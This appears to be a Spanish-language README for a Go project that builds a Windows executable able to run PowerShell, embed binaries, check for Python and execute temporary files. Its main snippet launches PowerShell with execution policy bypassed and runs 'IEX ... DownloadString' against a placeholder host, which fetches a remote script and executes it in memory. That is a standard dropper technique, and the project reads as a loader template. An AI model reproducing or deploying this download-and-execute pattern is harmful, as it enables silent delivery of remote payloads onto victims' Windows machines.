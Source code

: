 ## Características

- Ejecución de comandos PowerShell desde Go.
- Uso de `embed.FS` para incluir archivos binarios en el ejecutable.
- Verificación e instalación de Python y módulos requeridos.
- Creación y ejecución de archivos temporales.
- Cross-compiling para Windows desde Linux/macOS.

Compila el ejecutable para Windows:

```sh
GOOS=windows GOARCH=amd64 go build -o program.exe
```

O compila directamente en Windows:

```sh
go build -o program.exe
```

### Ejecución de PowerShell desde Go

```go
cmd := exec.Command("powershell", "-ExecutionPolicy", "Bypass", "-NoProfile", "-Command",
    "IEX (New-Object Net.WebClient).DownloadString('http://Local_IP/powershellfile.txt')")
output, err := cmd.CombinedOutput()
if err != nil {
    fmt.Println("Error ejecutando el comando:", err)
    return
}
fmt.Println("Salida del comando:", string(output))
```

### Verificación e Instalación de Python y Módulos

```go
func EnsurePythonInstalled() {
    cmd := exec.Command("python", "--version")
    err := cmd.Run()
    if err != nil {
        log.Fatalf("Python no está instalado o no está en el PATH.")
    }
    fmt.Println("Python está instalado.")
}
```
